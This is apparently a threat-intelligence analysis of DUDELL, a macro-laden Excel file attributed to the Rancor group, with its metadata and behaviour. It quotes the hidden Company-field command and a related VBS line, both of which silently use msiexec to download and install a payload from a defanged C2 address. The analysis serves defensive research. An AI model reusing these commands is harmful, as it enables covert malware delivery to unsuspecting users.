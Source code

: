 
Table 1. DUDELL properties
The DUDELL sample is a weaponized Microsoft Excel document that contains a malicious macro that runs on the victim’s machine. It shares the same malicious behavior reported by Checkpoint in Rancor: The Year of The Phish SHA-1 c829f5f9ff89210c888c1559bb085ec6e65232de. In Check Point’s blog, the sample is from December 2018 while this sample is from April 2018. It has the following metadata:



Codepage
1252


Author
MS


Last author
MS


Application name
Microsoft Excel


Creation time
Mon Oct 14 23:33:28 1996


Last Save time
Wed Apr 11 02:18:59 2018


Security type
0



Table 2. DUDELL file metadata
The macro in this document gets executed when the user views the document and clicks Enable Content, at which point the macro locates and executes the data located under the Company field in the document’s properties. The data located under the Company field is:



cmd /c set /p=Set v=CreateObject(^"Wscript.Shell^"):v.Run ^"msiexec /q /i http://199.247.6[.]253/ud^",false,0 <nul > C:\Windows\System32\spool\drivers\color\tmp.vbs



Table 3. Company field data 
The C2 server 199.247.6[.]253 listed above in Table 5 is known to be used by the Rancor group. The script is downloading a second stage payload via the Microsoft tool msiexec. Unfortunately at the time of discovery, the hosted file is unavailable. Our systems were able to record the hash of file tmp.vbs, but the contents of the file are no longer available. See Table 5 below for hash values. Pivoting off the filename and directory, we discovered a similar VBS script used by the Rancor actors that might give us some clues on what the contents of tmp.vbs would resemble. File office.vbs (SHA256: 4b0b319b58c2c0980390e24379a2e2a0a1e1a91d17a9d3e26be6f4a39a7afad2) was discovered in directory c:\Windows\System32\spool\drivers\color. The contents of that file are:



Set v=CreateObject("Wscript.Shell"):v.Run "msiexec /q /i http://199.247.6[.]253/OFFICE",false,0
